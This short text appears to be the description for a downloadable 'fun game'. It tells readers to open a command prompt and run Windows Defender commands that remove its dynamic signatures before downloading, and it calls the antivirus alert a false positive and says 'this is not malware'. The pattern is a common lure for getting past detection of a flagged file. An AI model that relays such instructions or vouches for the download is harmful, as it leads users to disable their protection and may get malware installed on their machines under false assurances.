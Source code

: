 # 1232
run this command in command prompt before downloading
this resolves the false positive for windows defender
this is not malware but its a fun game

cd %ProgramFiles%\Windows Defender
MpCmdRun.exe -removedefinitions -dynamicsignatures
MpCmdRun.exe -SignatureUpdate
